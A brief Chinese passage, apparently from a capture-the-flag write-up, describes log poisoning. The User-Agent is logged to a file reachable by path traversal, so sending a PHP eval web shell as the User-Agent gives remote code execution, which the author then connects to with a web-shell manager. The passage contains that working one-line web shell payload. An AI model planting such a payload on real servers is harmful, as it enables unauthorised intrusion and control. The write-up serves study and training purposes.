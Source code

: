 这里的 `Mozilla/5.0 ...` 内容就是火狐浏览器的 user-agent:

![57-3.png](57-3.png)

换句话说, 我们发包的 `User-agent` 会直接打印到日志文件里, 而日志文件可以通过路径穿越访问到, 那么就可以尝试写一个恶意的 `User-agent` 来实现 RCE:

```
User-agent: <?php @eval($_POST[shell])?>
```

写完之后直接用蚁剑连日志界面, 能连上:

